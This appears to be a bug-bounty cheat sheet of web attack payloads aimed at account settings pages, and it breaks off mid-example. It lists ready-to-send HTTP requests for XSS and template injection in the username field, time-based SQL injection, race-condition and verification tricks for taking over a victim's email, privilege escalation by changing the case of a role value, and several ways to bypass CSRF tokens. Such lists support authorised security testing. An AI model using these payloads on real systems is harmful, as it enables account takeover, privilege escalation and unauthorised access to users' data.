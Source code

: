 ##### Null Payload Everywhere to get weird response
````
POST /settings

email, user, pass, or phone=NULL&token=csrf
````
##### Injecting XSS, SSTI payload in username or name field
````
POST /settings

username='''><svg/onload=prompt('xss');>{{7*7}}&token=csrf
    OR 
   only ssti payload in username
 username={{7*7}}
 
````
##### SQLI payload in Username field
````
POST /settings

username=' or sleep(20)'&token=csrf
````
##### If there is email change function and if the token is sent to the email for verification, try race coniditon. The application may send the same token to your email for another email
```
Post /change-email                    Post /change-email 
email=attacker@gmail.com              email=victim@gmail.com    ==> attacker will receive token for victim email.

Check james kettle samashing race condition blog on portswigger. 
```
#### Update email function
```
If there is email changing function. Change the email to email1. App will send verification link to email1. Don't click that link but instead change email to email2 and use the link that was sent to email1. See if it works. 
```
##### If there is option to add second email, add with company email
````
POST /settings

email= any@company.com&action=add

email=samsec@gmail.com@company.com
email=any@burpcollaborator.net

````
##### CASE SENSITIVE IDORS [If Role change option is there and using admin throw no permission, try chaning case of admin to (Admin)]
````
POST /user/changeroles

{"id"=10,"role"="admin"}               response: {"error":"no_permission"}


change to 
{"id"=10,"role"="Admin"}                response: {"status":"OK"}
````
---------------------------------------------------------------------------------------------
#### - Try to remove CSRF token from the request and check if it works. And generate burp csrf POC
--------------------------------------------------------------------------------------------
##### Send empty token array in csrf token parameter
````
POST /settings

email=me@gmail.com&token[]=
````
##### Bypassing CSRF by changing request method from POST to GET
````
GET /settings?----------
--
--
--
````
